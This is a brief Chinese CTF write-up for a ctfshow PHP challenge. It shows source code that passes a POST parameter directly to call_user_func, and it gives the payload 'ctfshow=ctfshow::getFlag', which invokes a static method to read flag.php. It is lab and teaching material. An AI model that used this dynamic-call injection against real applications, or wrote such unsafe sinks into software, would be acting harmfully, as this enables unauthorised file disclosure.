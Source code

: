 # 知识点
### 类调用静态方法
php中静态方无需实例化即可调用，调用形式为class::method
# 思路
```python
<?php

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}



call_user_func($_POST['ctfshow']);
```
```python
ctfshow=ctfshow::getFlag
```
